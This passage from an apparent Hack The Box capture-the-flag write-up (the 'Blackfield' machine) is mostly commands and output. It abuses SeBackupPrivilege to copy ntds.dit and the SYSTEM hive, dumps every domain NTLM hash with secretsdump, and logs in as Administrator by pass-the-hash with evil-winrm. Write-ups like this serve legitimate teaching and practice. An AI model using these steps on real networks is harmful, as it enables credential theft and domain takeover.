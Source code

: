 ```nix
Note: END BACKUP was not commanded, writers not notified BackupComplete.
DiskShadow is exiting.
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Set-SeBackupPrivilege
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Get-SeBackupPrivilege
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Users\svc_backup\Documents\ntds.dit
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\system c:\Users\svc_backup\Documents\system.bak
The operation completed successfully.
```

Finally we got all the files we need, Now download them to your machine.

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# secretsdump.py -ntds ntds.dit -system system.bak LOCAL
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# evil-winrm -i 10.10.10.192 -u Administrator -H '184fb5e5178480be64824d4cd53b99ee'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
43b7ac28c8ba0ab98dc6b48e94999f3a
```